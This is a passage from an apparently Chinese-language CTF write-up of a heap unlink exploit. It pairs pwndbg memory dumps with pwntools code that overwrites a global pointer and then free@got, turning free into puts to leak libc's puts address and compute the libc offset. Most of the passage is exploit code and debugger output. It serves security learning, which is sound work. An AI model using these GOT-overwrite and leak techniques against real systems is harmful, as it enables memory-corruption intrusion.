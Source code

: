 unlink的就是我们的Fake Chunk

3.这时候,我们的globals[2] = globals[2]-0x18(***0x00602138***)

```
pwndbg> x/32g 0x0602140
0x602140:	0x0000000000000000	0x0000000001517020
0x602150:	0x0000000000602138	0x0000000000000000
0x602160:	0x0000000000000000	0x0000000000000000
0x602170:	0x0000000000000000	0x0000000000000000
0x602180:	0x0000000000000000	0x0000000000000000
0x602190:	0x0000000000000000	0x0000000000000000
0x6021a0:	0x0000000000000000	0x0000000000000000
0x6021b0:	0x0000000000000000	0x0000000000000000
0x6021c0:	0x0000000000000000	0x0000000000000000
0x6021d0:	0x0000000000000000	0x0000000000000000
0x6021e0:	0x0000000000000000	0x0000000000000000
0x6021f0:	0x0000000000000000	0x0000000000000000
0x602200:	0x0000000000000000	0x0000000000000000
0x602210:	0x0000000000000000	0x0000000000000000
0x602220:	0x0000000000000000	0x0000000000000000
0x602230:	0x0000000000000000	0x0000000000000000
```



再编辑的时候就可以从0x00602138这个地址开始写数据

```python
free_got = elf.got['free']
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
atoi_got = elf.got['atoi']
payload = 'a'*16 + p64(free_got) + p64(puts_got) + p64(atoi_got)
edit(2,len(payload),payload)
```



```
pwndbg> x/32g 0x0602140
0x602140:	0x6161616161616161	0x0000000000602018
0x602150:	0x0000000000602020	0x0000000000602088
0x602160:	0x0000000000000000	0x0000000000000000
```

4.这时候我们编辑ptr1就相当于在编辑free@got 之后free(2)就相当于puts(puts@got)

```python
edit(1,len(p64(puts_plt)),p64(puts_plt))
free(2)
s.recvline()
puts_real = u64(s.recvline(keepends=False)[0:8].ljust(8,'\x00'))
log.success("Puts_real:"+hex(puts_real))
offset = puts_real - libc.symbols['puts']
log.success("Offset:"+hex(offset))
```

